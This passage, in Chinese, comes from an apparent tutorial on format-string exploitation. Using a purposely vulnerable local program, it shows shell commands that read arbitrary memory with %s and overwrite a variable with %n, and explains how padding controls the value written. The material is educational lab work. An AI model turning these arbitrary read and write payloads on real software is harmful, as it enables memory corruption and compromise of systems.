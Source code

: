 上面用的是`%x`读取的数据`ffffd810`，把`%x`替换为`%s`即可读取到`ffffd810`里的数据

```bash
rz$ ./fmt_vuln.out "A`printf "\x10\xd8\xff\xff"`%11\$s"
your input:
A���%11$s
the wrong way to print:
A���en_US.UTF-8 # 此处为读取的`ffffd810`的里数据
[*] value @ 0xffffc874 = 0x00000064
```

# 向任意存储地址写入

如果使用%s可以读取任意地址的内容，那么使用%n就可以对任意地址进行写入操作

在调试语句中可以看到变量`value`的地址为`0xffffc874`，如前所述，用类似的方法即可重写变量的值。

```bash
rz$ ./fmt_vuln.out "A`printf "\x74\xc8\xff\xff"`%11\$n" # 此处将地址改为value的地址`0xffffc874`，用`%n`重写value的值
your input:
At���%11$n
the wrong way to print:
At���
[*] value @ 0xffffc874 = 0x00000005 # 此时，value的值已经被改为0x05
```

通过控制`%n`之前写入的字节数，可以控制`%n`写入的值。

```bash
rz$ ./fmt_vuln.out "A`printf "\x74\xc8\xff\xff%010x"`%11\$n" # 在%n之前添加了`%010x`，会多输出10位
your input:
At���0000000000%11$n
the wrong way to print:
At���0000000000
[*] value @ 0xffffc874 = 0x0000000f # 5+10 = 0x0f
```

虽然通过这种方法可以控制`%n`写入的值，但显然不适用于较大的数据，比如写入`0x0806abcd`。

这时可通过连续写入最低有效字节来精确的写入较大的数。

![value](/assets/img/md/2018-07-22-898328811.png)
